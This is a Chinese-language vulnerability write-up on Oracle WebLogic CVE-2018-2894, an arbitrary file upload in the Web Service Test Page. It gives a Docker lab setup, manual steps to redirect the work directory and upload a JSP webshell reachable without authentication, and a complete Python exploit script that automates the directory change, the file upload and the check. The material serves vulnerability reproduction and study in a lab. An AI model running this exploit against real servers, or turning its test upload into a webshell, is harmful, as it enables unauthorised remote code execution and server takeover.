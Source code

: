 # Weblogic 任意文件上传漏洞 CVE-2018-2894

## 漏洞描述

Oracle 7月更新中，修复了Weblogic Web Service Test Page中一处任意文件上传漏洞，Web Service Test Page 在“生产模式”下默认不开启，所以该漏洞有一定限制。

利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。

参考链接：

- http://www.oracle.com/technetwork/security-advisory/cpujul2018-4258247.html
- https://mp.weixin.qq.com/s/y5JGmM-aNaHcs_6P9a-gRQ
- https://xz.aliyun.com/t/2458

## 环境搭建

Vulhub执行如下命令，启动weblogic 12.2.1.3：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:7001/console`，即可看到后台登录页面。

执行`docker-compose logs | grep password`可查看管理员密码，管理员用户名为`weblogic`。

![image-20220302203000932](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022030030.png)

登录后台页面，点击`base_domain`的配置，在“高级”中开启“启用 Web 服务测试页”选项：

![image-20220302203542573](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022035688.png)

## 漏洞复现

访问`http://your-ip:7001/ws_utc/config.do`，设置Work Home Dir为`/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css`。

此处将目录设置为`ws_utc`应用的静态文件css目录，访问这个目录是无需权限的，这一点很重要。

![image-20220302203638857](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022036918.png)

然后点击安全 -> 增加，然后上传webshell：

![image-20220302203827084](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022038182.png)

上传后，查看返回的数据包，其中有时间戳：

![image-20220302203933002](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022039062.png)

然后访问`http://your-ip:7001/ws_utc/css/config/keystore/[时间戳]_[文件名]`，即可执行webshell：

![image-20220302204103311](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022041348.png)

## 开源POC

- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan

## 漏洞EXP

```python
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey

from __future__ import print_function
from builtins import str
import re
import sys
import time
import argparse
import requests
import traceback
import xml.etree.ElementTree as ET


def get_current_work_path(host):
    geturl = host + "/ws_utc/resources/setting/options/general"
    ua = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0'}
    values = []
    try:
        request = requests.get(geturl)
        if request.status_code == 404:
            exit("[-] {}  don't exists CVE-2018-2894".format(host))
        elif "Deploying Application".lower() in request.text.lower():
            print("[*] First Deploying Website Please wait a moment ...")
            time.sleep(20)
            request = requests.get(geturl, headers=ua)
        if "</defaultValue>" in request.content:
            root = ET.fromstring(request.content)
            value = root.find("section").find("options")
            for e in value:
                for sub in e:
                    if e.tag == "parameter" and sub.tag == "defaultValue":
                        values.append(sub.text)
    except requests.ConnectionError:
        exit("[-] Cannot connect url: {}".format(geturl))
    if values:
        return values[0]
    else:
        print("[-] Cannot get current work path\n")
        exit(request.content)


def get_new_work_path(host):
    origin_work_path = get_current_work_path(host)
    works = "/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css"
    if "user_projects" in origin_work_path:
        if "\\" in origin_work_path:
            works = works.replace("/", "\\")
            current_work_home = origin_work_path[:origin_work_path.find("user_projects")] + "user_projects\\domains"
            dir_len = len(current_work_home.split("\\"))
            domain_name = origin_work_path.split("\\")[dir_len]
            current_work_home += "\\" + domain_name + works
        else:
            current_work_home = origin_work_path[:origin_work_path.find("user_projects")] + "user_projects/domains"
            dir_len = len(current_work_home.split("/"))
            domain_name = origin_work_path.split("/")[dir_len]
            current_work_home += "/" + domain_name + works
    else:
        current_work_home = origin_work_path
        print("[*] cannot handle current work home dir: {}".format(origin_work_path))
    return current_work_home


def set_new_upload_path(host, path):
    data = {
        "setting_id": "general",
        "BasicConfigOptions.workDir": path,
        "BasicConfigOptions.proxyHost": "",
        "BasicConfigOptions.proxyPort": "80"}
    request = requests.post(host + "/ws_utc/resources/setting/options", data=data, headers=headers)
    if "successfully" in request.content:
        return True
    else:
        print("[-] Change New Upload Path failed")
        exit(request.content)


def upload_webshell(host, uri):
    set_new_upload_path(host, get_new_work_path(host))
    files = {
        "ks_edit_mode": "false",
        "ks_password_front": password,
        "ks_password_changed": "true",
        "ks_filename": ("360sglab.jsp", upload_content)
    }

    request = requests.post(host + uri, files=files)
    response = request.text
    match = re.findall("<id>(.*?)</id>", response)
    if match:
        tid = match[-1]
        shell_path = host + "/ws_utc/css/config/keystore/" + str(tid) + "_360sglab.jsp"
        if upload_content in requests.get(shell_path, headers=headers).content:
            print("[+] {} exists CVE-2018-2894".format(host))
            print("[+] Check URL: {} ".format(shell_path))
        else:
            print("[-] {}  don't exists CVE-2018-2894".format(host))
    else:
        print("[-] {}  don't exists CVE-2018-2894".format(host))


if __name__ == "__main__":
    start = time.time()
    password = "360sglab"
    url = "/ws_utc/resources/setting/keystore"
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", dest='target', default="http://127.0.0.1:7001", type=str,
                        help="target, such as: http://example.com:7001")

    upload_content = "360sglab test"
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'X-Requested-With': 'XMLHttpRequest', }

    if len(sys.argv) == 1:
        sys.argv.append('-h')
    args = parser.parse_args()
    target = args.target

    target = target.rstrip('/')
    if "://" not in target:
        target = "http://" + target
    try:
        upload_webshell(target, url)
    except Exception as e:
        print("[-] Error: \n")
        traceback.print_exc()
```

